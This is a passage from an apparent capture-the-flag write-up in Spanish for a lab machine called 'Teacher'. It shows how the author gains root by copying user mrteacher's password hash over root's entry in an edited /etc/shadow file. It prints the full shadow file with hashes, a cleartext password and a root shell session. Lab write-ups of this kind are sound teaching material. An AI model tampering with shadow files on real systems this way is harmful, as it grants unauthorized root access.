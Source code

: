 Ahora solo cambiamos el valor de root por los valores de mrteacher y nos movemos a root

```
root:$y$j9T$gOGCuq/iq84ssczF0sQBS1$Z6OoF9kPK824CPeFsPv.A9JvDFF5DEK0wB/neVm.Gi8:19228:0:99999:7:::
daemon:*:19228:0:99999:7:::
bin:*:19228:0:99999:7:::
sys:*:19228:0:99999:7:::
sync:*:19228:0:99999:7:::
games:*:19228:0:99999:7:::
man:*:19228:0:99999:7:::
lp:*:19228:0:99999:7:::
mail:*:19228:0:99999:7:::
news:*:19228:0:99999:7:::
uucp:*:19228:0:99999:7:::
proxy:*:19228:0:99999:7:::
www-data:*:19228:0:99999:7:::
backup:*:19228:0:99999:7:::
list:*:19228:0:99999:7:::
irc:*:19228:0:99999:7:::
gnats:*:19228:0:99999:7:::
nobody:*:19228:0:99999:7:::
_apt:*:19228:0:99999:7:::
systemd-network:*:19228:0:99999:7:::
systemd-resolve:*:19228:0:99999:7:::
messagebus:*:19228:0:99999:7:::
avahi-autoipd:*:19228:0:99999:7:::
sshd:*:19228:0:99999:7:::
mrteacher:$y$j9T$gOGCuq/iq84ssczF0sQBS1$Z6OoF9kPK824CPeFsPv.A9JvDFF5DEK0wB/neVm.Gi8:19228:0:99999:7:::
systemd-timesync:!*:19228::::::
systemd-coredump:!*:19228::::::
```

Ahora la password de root es la misma que la de mrteacher asi que simplemente nos cambiamos de usuario y obtenemos la flag

```
mrteacher@Teacher:~$ su root
Password: ThankYouTeachers
root@Teacher:/home/mrteacher# cd /root
root@Teacher:~# ls
root
root@Teacher:~# cat root
**************0l
```

